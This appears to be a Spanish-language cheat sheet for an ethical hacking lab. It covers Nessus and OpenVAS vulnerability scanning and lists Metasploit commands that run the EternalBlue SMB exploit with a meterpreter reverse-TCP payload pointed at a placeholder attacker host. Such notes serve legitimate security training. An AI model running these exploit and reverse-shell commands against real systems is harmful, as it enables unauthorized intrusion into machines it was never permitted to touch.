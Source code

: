 
## 🛡️ VULNERABILITY ASSESSMENT

### NESSUS
**Objetivo:** Escaneo automatizado de vulnerabilidades.

**Entorno:** Windows 7 (interfaz web)

**Configuración:**
1. Instalar Nessus
2. Crear cuenta en `https://localhost:8834`
3. Activation Code del laboratorio
4. Configurar scan policies

**Tipos de Scan:**
- **Basic Network Scan:** Detección general
- **Advanced Scan:** Personalizable
- **Web Application Tests:** Específico para web

### OPENVAS
**Alternativa opensource a Nessus**
- Misma funcionalidad básica
- Interfaz web similar

---

## 🔧 SYSTEM HACKING & POST-EXPLOITATION

### METASPLOIT
**Objetivo:** Framework de explotación.

**Entorno:** Parrot OS

```bash
# Iniciar Metasploit
msfconsole

# Buscar exploits
search apache
search type:exploit platform:windows

# Usar exploit
use exploit/windows/smb/ms17_010_eternalblue

# Configurar
set RHOSTS target_ip
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip

# Ejecutar
exploit
```
